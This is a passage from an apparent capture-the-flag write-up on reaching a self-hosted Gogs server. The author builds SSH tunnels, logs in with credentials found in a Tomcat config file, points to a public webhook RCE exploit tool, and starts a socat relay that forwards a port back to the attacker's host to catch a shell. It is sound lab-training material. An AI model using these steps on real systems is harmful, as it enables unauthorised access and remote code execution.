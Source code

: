 
### Gogs

#### Tunnels

To get to the page, I’ll add a tunnel to each ssh session. On ssh into Aogiri:

    
    
    -L 3000:127.0.0.1:3000
    

On ssh to kaneki:

    
    
    -L 3000:172.18.0.2:3000
    

Now browse to localhost:3000 and I get the site:

![1559040101702](https://0xdfimages.gitlab.io/img/1559040101702.png)

It’s an instance of Gogs.

#### Gogs Background

[Gogs](https://gogs.io/) is a self-hosted git instance. Basically think of
GitHub, but open source and that you can host yourself. There are several CVEs
for Gogs that I’ll check out, and [this
GitHub](https://github.com/TheZ3ro/gogsownz) has a good tool to exploit two of
them. The background in this vulnerability (and much more) is in [this
presentation](https://2018.zeronights.ru/wp-content/uploads/materials/17-Who-
owned-your-code.pdf), but basically as an admin user you can create a webhook
which will run on commit which is basically RCE.

#### Authentication

First, I need to log in to the application. I’ll check a list of credentials
I’ve collected from the box so far. I havfe a good feeling the user will be
aogiritest, based on the `to-do.txt` I found earlier. After some guessing and
password hunting on the containers I had access to, I managed to log in with
“aogiritest” / “test@aogiri123” (password from Aogiri box
`/usr/share/tomcat7/conf/tomcat-users.xml`).

### Shell

First I need to set up a tunnel. I’ll upload `socat` to the box. I’ll also
notice that kaneki-pc can talk directly to my kali host, so I’ll just set up a
`socat` tunnel there that listens and forwards back to me. (In later testing
I’ll actually show that Gogs can talk directly back to me, but this is still
safer when you don’t know.)

    
    
    kaneki_pub@kaneki-pc:/tmp$ ./.socat tcp-listen:9001,reuseaddr,fork tcp:10.10.14.7:9001 &
    [1] 2278
    

Now I can use https://github.com/TheZ3ro/gogsownz/blob/master/gogsownz.py. A
couple things to note:
